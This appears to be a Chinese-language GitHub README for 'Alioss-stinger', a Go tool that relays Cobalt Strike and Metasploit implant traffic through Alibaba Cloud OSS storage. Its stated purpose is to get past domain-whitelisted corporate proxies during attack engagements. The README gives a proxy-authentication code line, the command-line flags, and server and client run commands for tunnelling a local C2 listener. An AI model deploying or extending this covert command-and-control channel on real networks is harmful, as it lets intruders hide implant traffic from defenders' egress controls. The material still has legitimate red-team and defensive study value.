


# Alioss-stinger

利用阿里云oss对象存储，来转发http流量实现（cs）Cobalt Strike、msf 上线等

这之间利用阿里云的相关域名进行通信。

## 背景

在某次攻防中，内部通过代理服务器上网，且不能访问ip，域名白名单，刚好阿里云、腾讯云在其中，看到github上有个师傅写过的一些腾讯云的代码，但是有个问题，腾讯云的官方库好像不支持认证功能，于是我就照着这个师傅的代码改成了阿里云的版本。

参考：https://github.com/9bie/oss-stinger

修改39行就好，加入内网代理服务器

```
ossClient, err = oss.New(endPoint, accessKeyId, accessKeySecret, oss.AuthProxy("http://127.0.0.1:8080", "", ""))
```

## 如何使用

```
PS C:\Users\xxx\Desktop\github\goalioss-stinger> go run .\main.go -h
Usage of C:\Users\xxx\AppData\Local\Temp\go-build3967568892\b001\exe\main.exe:
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -mode string
        client/server 二选一
  -osskey string
        format: endpoint:accessKeyId:accessKeySecret:bucketName
```

### CS

生成监听本地127.0.0.1:8001的木马：



### 服务端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode server -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

### 客户端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode client -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```



# 阿里云安全配置
按照这个配置就可以了。
https://www.yuque.com/pant0m/netsecnote/kyqg65wkmxycfhei

